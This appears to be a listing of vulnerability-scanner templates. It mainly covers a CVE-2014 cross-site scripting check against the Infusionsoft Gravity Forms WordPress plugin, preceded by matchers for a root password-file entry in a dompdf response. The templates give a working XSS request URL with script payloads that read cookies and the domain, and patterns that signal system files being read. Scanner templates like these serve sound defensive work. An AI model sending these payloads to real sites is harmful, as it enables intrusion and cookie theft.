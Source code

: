 ### Matchers

**Type - regex**
- regex
    1. root:[x*]:0:0

**Type - word**
- words
    1. application/pdf
    2. filename="dompdf_out.pdf"
- part - header
- condition - and

**Type - status**
- status
    1. 200

---
# Infusionsoft Gravity Forms Add-on \< 1.5.7 - Cross-Site Scripting
## Description
- Multiple cross-site scripting vulnerabilities in tests/notAuto_test_ContactService_pauseCampaign.php in the Infusionsoft Gravity Forms plugin before 1.5.6 for WordPress allow remote attackers to inject arbitrary web script or HTML via the (1) go, (2) contactId, or (3) campaignId parameter.
- severity - medium
- tags - wpscan,cve,cve2014,wordpress,wp-plugin,xss,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/infusionsoft/Infusionsoft/tests/notAuto_test_ContactService_pauseCampaign.php?go=go%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&contactId=contactId%27%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&campaignId=campaignId%22%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&
### Matchers

**Type - word**
- words
    1. ">\</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---